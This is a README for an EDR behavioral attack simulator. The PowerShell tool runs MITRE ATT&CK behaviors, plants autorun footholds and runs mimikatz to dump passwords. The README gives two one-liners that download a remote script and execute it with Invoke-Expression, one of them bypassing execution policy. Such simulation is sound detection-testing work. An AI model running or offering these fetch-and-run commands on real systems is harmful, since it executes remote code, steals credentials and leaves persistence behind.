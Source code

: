 ## Datto EDR Behavioral Attack Simulator
**Platform:** Microsoft Windows 7+ or Server 2008+\
**Powershell Version:** 3.0+\
**.NET Version:** 4.5+

This script will execute several MITRE ATT&CK adversarial behaviors and add several footholds/Autoruns which are pointed at non-malware (calculator and cmd.exe).  The only malicous software run is mimikatz (steals passwords from memory) which will not persist.


The following command is all you need.  Run it on any windows system and it will download this script and execute it.  


> `[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1")`


### Example 2 (For use in batch or from cmd.exe):
If running from outside Powershell (like in cmd.exe or a batch script):
> `powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1") }`

### WARNING: This script will leave your system in a messy state. The cleanup script is not finished yet. Shouldn't cause a problem but expect random calculators and command prompts (our selected malware) to persist and return randomly.
